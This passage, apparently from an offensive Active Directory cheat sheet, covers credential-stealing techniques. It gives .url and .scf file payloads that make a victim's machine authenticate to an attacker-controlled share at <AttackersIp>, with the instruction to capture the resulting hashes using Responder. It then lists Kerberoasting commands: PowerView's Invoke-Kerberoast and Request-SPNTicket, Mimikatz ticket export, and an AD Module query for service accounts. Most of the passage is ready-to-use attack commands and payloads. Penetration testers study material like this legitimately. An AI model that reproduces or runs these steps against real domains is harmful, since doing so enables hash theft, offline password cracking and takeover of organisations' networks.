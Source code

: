     ```
    
    ```
    [InternetShortcut]
    URL=file://<AttackersIp>/leak/leak.html
    
    ```
    
- .scf file
    
    ```
    [Shell]
    Command=2
    IconFile=\\\\<AttackersIp>\\Share\\test.ico
    [Taskbar]
    Command=ToggleDesktop
    
    ```
    

Putting these files in a writeable share the victim only has to open the file explorer and navigate to the share. **Note** that the file doesn't need to be opened or the user to interact with it, but it must be on the top of the file system or just visible in the windows explorer window in order to be rendered. Use responder to capture the hashes.

❗ .scf file attacks won't work on the latest versions of Windows.

## **Domain Privilege Escalation**

### **Kerberoast**

All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"

account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline.

- PowerView:
    
    ```
    #Get User Accounts that are used as Service Accounts
    Get-NetUser -SPN
    
    #Get every available SPN account, request a TGS and dump its hash
    Invoke-Kerberoast
    
    #Requesting the TGS for a single account:
    Request-SPNTicket
    
    #Export all tickets using Mimikatz
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
    
- AD Module:
    
    ```
    #Get User Accounts that are used as Service Accounts
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
    